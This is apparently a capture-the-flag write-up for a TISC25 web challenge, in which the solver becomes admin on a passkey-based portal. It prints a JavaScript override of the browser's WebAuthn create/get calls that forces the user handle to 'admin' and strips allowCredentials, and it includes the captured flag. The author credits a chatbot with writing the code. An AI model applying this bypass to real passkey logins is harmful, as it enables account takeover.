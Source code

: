 # Level-6 - Passkey

DESCRIPTION

Our web crawler has flagged a suspicious unlisted web service that looks to be a portal where SPECTRE operates from. It does not seem to rely on traditional authentication methods, however.

This service is open for anyone to sign up as a user. All you need is a unique username of your choosing, and passkey.

Go to https://passkey.chals.tisc25.ctf.sg to begin.

Good luck, and may your passkeys guide you to victory!

---

Okay so we are given a website where there seems to be a register page and login page. When we try to register we are told to set up a passkey with Windows Hello. 

So I asked CHAT what to do.

It told me to use the Chrome developer tools and use the WebAuthenticator and setup an authenticator. So thats what I did.

<img width="980" height="310" alt="image" src="https://github.com/user-attachments/assets/0889fb25-031c-46cd-86a0-e998f9d4d957" />

Now whenever I register an account, the credentials are saved in the authenticator and I can now login.

<img width="982" height="302" alt="image" src="https://github.com/user-attachments/assets/6f950f50-4746-42b3-9c0c-37e8505bd027" />

After logining we see this dashboard:

<img width="927" height="360" alt="image" src="https://github.com/user-attachments/assets/e2d84811-102b-41b1-ab07-7c932e727b94" />

Clearly we have to be admin somehow, so clearly I asked chat.

It then told me I had to override the /app.js the website uses (duh)

And after much prompts it finally gave me a app.js file that when used to override, allowed me to login as admin.

```
function base64UrlToBuffer(b64url) {
  const pad = '='.repeat((4 - (b64url.length % 4)) % 4);
  const b64 = (b64url + pad).replace(/-/g, '+').replace(/_/g, '/');
  const bin = atob(b64);
  const arr = new Uint8Array(bin.length);
  for (let i = 0; i < bin.length; i++) arr[i] = bin.charCodeAt(i);
  return arr.buffer;
}

function bufferToBase64Url(buf) {
  const bytes = new Uint8Array(buf);
  let bin = '';
  for (const b of bytes) bin += String.fromCharCode(b);
  return btoa(bin).replace(/\+/g, '-').replace(/\//g, '_').replace(/=+$/, '');
}

(function () {
  const toAB = (v) => {
    if (v instanceof ArrayBuffer) return v;
    if (ArrayBuffer.isView?.(v)) {
      // copy the view's bytes into a standalone ArrayBuffer
      return v.buffer.slice(v.byteOffset, v.byteOffset + v.byteLength);
    }
    return new TextEncoder().encode(String(v)).buffer;
  };

  // --- REGISTER: force admin handle; require resident + UV; use cross-platform key (USB/NFC)
  const oldCreate = navigator.credentials.create?.bind(navigator.credentials);
  if (oldCreate) {
    navigator.credentials.create = async (opts) => {
      try {
        const pk = opts?.publicKey ?? {};
        if (pk.user?.id) pk.user.id = toAB("admin"); // change to "uzc" if needed

        const sel = (pk.authenticatorSelection ||= {});
        sel.authenticatorAttachment = "cross-platform";   // important for USB/NFC
        sel.residentKey = "required";
        pk.requireResidentKey = true;                     // legacy flag some libs read
        sel.userVerification = "required";

        console.log("[override] REGISTER opts", {
          rpId: pk.rp?.id, rk: sel.residentKey, uv: sel.userVerification,
          attachment: sel.authenticatorAttachment, userIdLen: pk.user?.id?.byteLength
        });

        const cred = await oldCreate(opts);
        console.log("[override] REGISTER success", cred);
        return cred;
      } catch (e) {
        console.error("[override] REGISTER failed:", e.name, e.message);
        throw e;
      }
    };
  }

  // --- LOGIN: only clear allowCredentials for admin/uzc so normal users still work
  const oldGet = navigator.credentials.get?.bind(navigator.credentials);
  if (oldGet) {
    navigator.credentials.get = async (opts) => {
      try {
        const m = document.body?.innerText?.match(/Authenticating\s+([^\.\s]+)/);
        const uname = m?.[1]?.trim().toLowerCase();
        if ((uname === "admin" || uname === "uzc") && opts?.publicKey?.allowCredentials) {
          delete opts.publicKey.allowCredentials;
          console.log("[override] LOGIN(", uname, "): cleared allowCredentials");
        } else {
          console.log("[override] LOGIN(", uname ?? "unknown", "): kept allowCredentials");
        }
        const asr = opts?.publicKey?.allowSilentDiscovery ?? false;
        console.log("[override] LOGIN opts", { asr });
        const assertion = await oldGet(opts);
        console.log("[override] LOGIN success", assertion);
        return assertion;
      } catch (e) {
        console.error("[override] LOGIN failed:", e.name, e.message);
        throw e;
      }
    };
  }
})();
```

Now all I had to do was to register any account and login with the user admin. And it works!

<img width="943" height="391" alt="image" src="https://github.com/user-attachments/assets/01bf6120-a138-4ff6-856f-87dcc64f3aef" />

We are now jacked in as admin and can access the admin dashboard. On the dashboard, the flag is displayed

<img width="464" height="221" alt="image" src="https://github.com/user-attachments/assets/4bb2f856-66e6-42b5-bc09-35523e963669" />

FLAG: TISC{p4ssk3y_is_gr3a7_t|sC}

Damn am I good or what :) (Read other writeups if you want to know what this chall does) (Also prepare for like 1 more writeup where CHAT just chatted :))))))))))))
